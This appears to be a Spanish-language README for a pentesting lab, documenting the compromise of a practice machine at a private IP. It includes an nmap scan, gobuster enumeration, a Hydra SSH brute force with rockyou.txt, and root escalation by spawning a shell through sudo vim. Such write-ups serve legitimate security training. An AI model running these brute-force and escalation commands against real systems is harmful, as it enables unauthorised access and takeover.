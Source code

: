 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- `ping\`
- `nmap\`
- `gobuster\`
- `hydra\`
- `ssh\`
- `vim\`
- Diccionario `rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`
ping -c 4 172.18.0.2
\`\`\`

![Ping a la IP](screenshots/ping.PNG)

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

![escaneo](screenshots/escaneo.PNG)

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)
Vemos que tiene el puerto 80 mediante el navegador

![navegador](screenshots/puerto80http.PNG)

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

![gobuster](screenshots/gobuster.PNG)

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

![Nombre](screenshots/mario.PNG)

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

![Password](screenshots/contraseña.PNG)

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

![SHH](screenshots/conexionSSH.PNG)

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

![escala](screenshots/escalada.PNG)

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

![escalada](screenshots/escaladavim.PNG)

\`\`\`
sudo vim -c ':!/bin/sh'
\`\`\`

![accesoRoot](screenshots/accesoRoot.PNG)

Conseguimos un shell con privilegios root y control total de la máquina.

![Root](screenshots/root.PNG)

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
